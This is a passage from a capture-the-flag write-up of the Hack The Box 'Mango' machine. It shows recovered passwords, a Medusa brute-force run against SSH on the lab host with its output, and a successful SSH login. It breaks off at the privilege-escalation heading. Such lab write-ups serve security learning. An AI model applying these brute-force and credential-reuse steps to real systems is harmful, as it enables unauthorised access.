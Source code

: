 ````bash
  
def main():
    payload()

if __name__ == "__main__":
    main() 
````



After execute this script following the instructions in comments we  have two passwords:

```h3mXK8RhU~f{]f5H```  and  ```t9KcS3>!0B#2```



## Initial Shell 

 With the usernames and password, we create two lists : ```username``` and ```passwords.txt```.  We use boot with Medusa to brute force the ssh service: 

```bash
dumbland () hgfs/hackthebox/mango :: cat usernames.txt
admin
mango
dumbland () hgfs/hackthebox/mango :: cat passwords.txt
h3mXK8RhU~f{]f5H
t9KcS3>!0B#2
```

```bash
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.162 (1 of 1, 0 complete) User: admin (1 of 2, 0 complete) Password: h3mXK8RhU~f{]f5H (1 of 2 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.162 (1 of 1, 0 complete) User: admin (1 of 2, 0 complete) Password: t9KcS3>!0B#2 (2 of 2 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.162 (1 of 1, 0 complete) User: mango (2 of 2, 1 complete) Password: h3mXK8RhU~f{]f5H (1 of 2 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.162 User: mango Password: h3mXK8RhU~f{]f5H [SUCCESS]
```

After this hole process we reach one credential: ```mango:h3mXK8RhU~f{]f5H``` :

```bash
dumbland () hgfs/hackthebox/mango :: ssh mango@10.10.10.162
mango@10.10.10.162's password:
----------------------------------SNIP-------------------------------------------------
mango@mango:~$
```



## Priv Escalation 

This took more time I expect because I don't follow the  two ```rules of dumb ```:
